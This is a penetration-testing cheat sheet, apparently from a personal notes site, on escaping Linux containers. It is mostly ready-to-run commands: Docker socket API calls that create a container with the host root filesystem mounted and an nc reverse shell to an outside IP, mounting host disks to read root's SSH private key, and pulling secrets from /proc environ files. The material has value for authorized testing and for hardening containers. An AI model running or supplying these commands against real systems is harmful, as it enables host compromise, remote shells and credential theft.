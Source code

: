 ```yaml
---
title: Linux Container Escape
---
```


Break out of insecure containers on [[notes/linux/index]].
Don't forget to check [[notes/linux/credential-access-user]] and [[notes/linux/escalation-kernel-exploits]].

Untested tools:

- [deepce](https://github.com/stealthcopter/deepce)

# Sockets

Sockets, e.g. for the Docker API, mounted into the container.

~~~ bash
ls -ld /{run,var/run}/{crio/crio,docker,dockershim,containerd/containerd,frakti,rktlet}.sock
find / -type s -ls 2> /dev/null
~~~

## Docker Socket Exploitation

List available images.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock http://localhost/images/json
[
  {
    "Containers": -1,
    "Created": 1590787186,
    "Id": "sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": null,
    "RepoTags": [
      "sandbox:latest"
    ],
    "SharedSize": -1,
    "Size": 5574537,
    "VirtualSize": 5574537
  },
  ...
]
~~~

Create a new container.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' -d @- http://localhost/containers/create << EOF
{
  "Image": "sandbox:latest",
  "Cmd": ["/bin/sh","-c","rm -f /tmp/s && mkfifo /tmp/s && cat /tmp/s | /bin/sh -i 2>&1 | nc 10.10.14.53 1332 > /tmp/s"],
  "DetachKeys": "Ctrl-p,Ctrl-q",
  "OpenStdin": true,
  "Mounts": [
    {
      "Type": "bind",
      "Source": "/",
      "Target": "/rootfs"
    }
  ]
}
EOF
{"Id":"461afb04cbc88e9a18b61f45e877648ef2dbd6dc3ad94505c2f403030516c227","Warnings":[]}
~~~

Start the container.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock -X POST http://localhost/containers/461afb04cbc88e9a18b61f45e877648ef2dbd6dc3ad94505c2f403030516c227/start
~~~

References:

- [Escaping the Whale: Things you probably shouldn't do with Docker (Part 1)](https://web.archive.org/web/20220528052412/https://www.secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html)

# Capabilities

Dangerous capabilities like `CAP_SYS_ADMIN`.

~~~ bash
grep Cap /proc/self/status
~~~

Decode the output with `capsh --decode=00000000a80425fb`.

References:

- [7 Ways to Escape a Container](http://web.archive.org/web/20230905200448/https://www.panoptica.app/research/7-ways-to-escape-a-container), exploitation of `SYS_ADMIN`, `SYS_PTRACE`, `SYS_MODULE`, `DAC_READ_SEARCH` and `DAC_OVERRIDE` capabilities

# Bind Mounts

Direct access to storage devices.

~~~ bash
mount | grep -e /dev/
ls -la /dev
~~~

This can be exploited by mounting the host rootfs.

~~~ bash
mount /dev/sda1 /mnt
cat /mnt/root/.ssh/id_rsa
~~~

If `mount` shows `proc on /proc type proc`, then `/proc` was bind-mounted into the container.
You can access the host rootfs trough `/proc/*/root/etc/passwd`.
Additionally you might be able to extract secrets from the host trough `/proc/*/cmdline` and `/proc/*/environ`.
